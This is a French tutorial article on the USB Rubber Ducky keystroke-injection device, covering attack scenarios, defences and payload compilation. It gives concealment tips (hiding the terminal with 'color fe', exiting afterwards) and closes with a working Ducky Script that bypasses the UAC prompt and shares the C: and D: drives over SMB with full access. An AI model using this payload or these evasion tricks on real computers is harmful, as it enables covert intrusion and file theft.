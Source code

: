 ```yaml
---
title: Rubber Ducky
type: WIKI
categories:
  - system
description: Configuration d'un équipement Rubber Ducky.
author: Flavien PERIER <perier@flavien.io>
date: 2021-10-31 18:00
---
```


Je tiens avant toute chose à préciser que cet article est rédigé uniquement à but pédagogique. Je n'ai jamais projeté d'attaquer quelque entreprise que ce soit. Si vos intentions en vous rendant sur ce site sont malveillantes je vous invite à consulter [l'article 323-1 du Code pénal](https://www.legifrance.gouv.fr/codes/article_lc/LEGIARTI000030939438/) qui stipule que les intrusions dans un système informatique peuvent vous couter jusqu'a deux ans d'emprisonnement et 60 000 € d'amende. En sachant cela, je décline toute responsabilité de ce que vous ferez du contenu de cet article.

La [Rubber Ducky](https://www.usbrubberducky.com/) est un dispositif d'attaque physique vendu par [Hak5](https://hak5.org/). Extérieurement, elle ressemble à une vulgaire clé USB. Cependant, une fois connectée à un ordinateur elle est reconnue comme un clavier et va pouvoir exécuter une série d'instructions prédéfinie par l'attaquant.

![USB Rubber Ducky](https://medias.flavien.io/articles/rubber-ducky/rubber-ducky.webp)

## Avantage de la conception

Le principal avantage de la Rubber Ducky est qu'elle n'exploite pas des vulnérabilités logicielles, mais s'appuie sur la simulation du hardware d'un clavier physique. Le système d'exploitation n'a donc aucune façon de différencier ce périphérique de n'importe quel autre clavier. La Rubber Ducky est donc complètement indexable par les antivirus. 

## Vecteur d'attaque

Il existe de nombreux scénarios d'attaque imaginables avec ce type d'appareil. En voici deux petits exemples :

- Dans le cas où un hacker arriverait à pénétrer physiquement dans les locaux d'une entreprise, ce type d'équipement pourrait lui permettre de gagner du temps dans le cas ou il trouverait, un pc déverrouillé. Il lui suffit de brancher la Rubber Ducky et d'attendre que le script se déroule (généralement seulement quelques secondes).

- Autres scénarios où le hacker n'arriverait pas à accéder aux locaux, il serait envisageable d'abandonner le dispositif dans un lieu fréquenté par les employés de cette entreprise (comme par exemple le parking de l'entreprise). Dans la plupart des cas, la personne qui va trouver le dispositif va le brancher afin de visualiser son contenu. Erreur qui pourrait être fatale et permettre au hacker de s'infiltrer dans le réseau d'une entreprise sans même avoir à y accéder physiquement.

## Comment s'en défendre

Comme nous l'avons vu, une attaque effectuée par une Rubber Ducky est indétectable par nos antivirus. Pour s'en défendre, il faut donc une approche qui ne soit pas logiciel.

La plupart des entreprises interdisent à leurs employés de connecter des clés USB à leurs ordinateurs, mais ne les empêchent pas non plus de le faire... Conclusion, ils ne se privent pas.

Il existe de nombreuses sociétés commercialisant des dispositifs permettant de bloquer l'accès à un port USB comme par exemple, [Lindy](https://lindy.com/fr/technologie/bloqueurs-de-ports/). Ce type de protection permet d'éviter qu'un employé ou un attaquant connecte un périphérique USB non désiré. D'autres, plus extrémistes, détruisent tout simplement les ports USB non utilisés (ce qui est dommage à mon sens quand on peut simplement les verrouiller). Il reste cependant un certain nombre de ports USB qu'on ne peut pas condamner, car utilisés (clavier, souris, webcam...). Si aucun port n'est libre, il est assez peu probable qu'un employé prenne le temps de débrancher un périphérique dont il a besoin afin de connecter la clé USB qu'il vient de trouver. Cependant cela ne va très certainement pas arrêter un hacker s'il en a le temps. Une solution pourrait consister à souder les périphériques branchés au châssis.

Il est cependant évident qu'il n'est pas forcément nécessaire d'en arriver là. Cela dépend de la criticité des informations auxquelles l'employé a accès et du réseau sur lequel il se trouve.

## Comment s'en servir

La première étape consiste à démonter la Rubber Ducky. À l'intérieur ce trouve une carte micros-sd c'est sur cette dernière que nous allons travaillé et pouvoir déposer notre payload.

### Installation de l'environnement

Le langage de la Rubber Ducky (le [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360049449314-Ducky-Script-Command-Reference)) est compilé. Il faut donc utiliser un logiciel afin de transformer notre code en instruction compris par notre équipement.

Il est possible d'utiliser [le compiler en ligne proposée par Hak5](https://shop.hak5.org/pages/ducky-encoder) ou d'installer directement [l'outil java en ligne de commande](https://github.com/hak5darren/USB-Rubber-Ducky/releases/download/v2.6.3/encoder.jar).

Pour utiliser l'outil, il suffit d'utiliser la ligne de commande suivante :

```bash
java -jar encoder.jar -l fr -i script.txt -o inject.bin 
```

Une fois notre code compilé d'une façon ou d'une autre, il suffit de le mettre à la racine de la carte avec le nom `inject.bin`.

### Quelques exemples de scripts

Il existe plusieurs sites qui proposent des scripts déjà tout fait. Il est intéréssent de passer par la afin de s'en inspirer :

- [GitHub de Hak5](https://github.com/hak5/usbrubberducky-payloads)
- [Hacktoday](https://thehacktoday.com/60-best-rubber-ducky-usb-payloads/)

#### Quelques conseils

- Toujours essayer de faire passer le script sur une unique ligne chainer avec des `&&` des `||` et des `;`. Cela permet de débrancher la clé USB au plus tôt. En effet une fois la ligne tapée et lancée, le payload va poursuivre son exécution même si l'on débranche la clé.

- Sur Windows, préférez l'utilisation de CMD à PowerShell (si on utilise des instructions PowerShell, les exécuter depuis le CMD). La raison est que CMD démarre beaucoup plus rapidement et que par extension, notre script à moins de chance de commencer à écrire avant que le terminal soit chargé.

- Bien penser à commencer le script par `color fe`. Cela va passer la couleur de CMD en Jaune claire sur blanc (rendant le déroulement illisible par un humain). Le temps que l'utilisateur comprenne ce qui se passe, il sera déjà trop tard.

- Terminer le script par un exit afin de fermer le terminal après le méfait et donc passer plus facilement inaperçu.

#### Partage des disques dur sur le réseau

Un premier petit payload, qui est en réalité assez inoffensif pour les entreprises dans la mesure ou le script demande un accès administrateur (qui n'est en général pas offert aux employés).

Le but est ici de transformer les disques `C:` et `D:` d'un Windows en lecteurs réseaux. L'attaquant n'aura par la suite qu'à récupérer les fichiers qu'ils contiennent. Cela implique cependant que l'attaquant ait accès au réseau et connaisse l'IP de ça vctime.

```txt
REM Flavien PERIER <perier@flavien.io>
DEFAULT_DELAY 300

DELAY 1000
GUI r
STRING cmd
CTRL-SHIFT ENTER
DELAY 700
TAB
TAB
ENTER

STRING color fe && powershell "New-SmbShare -Name C -Path C:\ -FullAccess administrateur ; New-SmbShare -Name D -Path D:\ -FullAccess administrateur" || exit
ENTER
```
